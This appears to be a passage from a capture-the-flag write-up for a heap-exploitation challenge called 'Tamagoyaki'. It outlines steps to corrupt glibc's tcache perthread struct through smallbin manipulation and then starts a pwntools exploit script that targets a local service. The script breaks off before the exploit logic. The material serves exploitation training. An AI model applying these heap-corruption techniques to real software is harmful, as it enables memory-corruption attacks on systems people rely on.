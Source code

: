 So using the following method you can corrupt the tcache perthread struct which then allows you to edit the pointers in the structure thus giving you almost complete control over heap allocations. 

STRATEGY TO CORRUPT THE TCACHE PERTHREAD STRUCTURE -
- Gain first allocation on the struct
	- place pointer to make bk of smallbin point back to valid smallbin chunk
	- Get an intermediate smallbin chunk to point to the pointer at the struct
	- Pull of the tcache diversion attack
	- Get an allocation in the struct by allocating two more chunks

After this you can pull of the previous strategy we discussed to get a tcache chunk to point to the mmapped location and an allocation of that bin size will lead you to get the chunk and the allocation in the region where you can write the value to get the flag.


```python
from pwn import *

exe = './Tamagoyaki_patched'

(host,port_num) = ("localhost",1337)

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug(
            [exe] + argv, gdbscript=gscpt, *a, **kw)
    elif args.RE:
        return remote(host,port_num)
    else:
        return process( 
            [exe] + argv, *a, **kw)
    
gscpt = (
    '''
b * main
'''
).format(**locals())

context.update(arch='amd64')

# SHORTHANDS FOR FNCS
se  = lambda nbytes     : p.send(nbytes)
sl  = lambda nbytes     : p.sendline(nbytes)
sa  = lambda msg,nbytes : p.sendafter(msg,nbytes)
sla = lambda msg,nbytes : p.sendlineafter(msg,nbytes)
rv  = lambda nbytes     : p.recv(nbytes)
rvu = lambda msg        : p.recvuntil(msg)
rvl = lambda            : p.recvline()

def w(*args):
    print(f"〔\033[1;32m>\033[0m〕",end="")
    for i in args:
        print(hex(i)) if(type(i) == int) else print(i,end=" ")
    print("")

context.log_level = \
    'DEBUG'

# _____________________________________________________ #
# <<<<<<<<<<<<<<< EXPLOIT STARTS HERE >>>>>>>>>>>>>>>>> #

freed = []
dictt = {}
index = 0x0

def malloc(size,data,name,offset=0):
```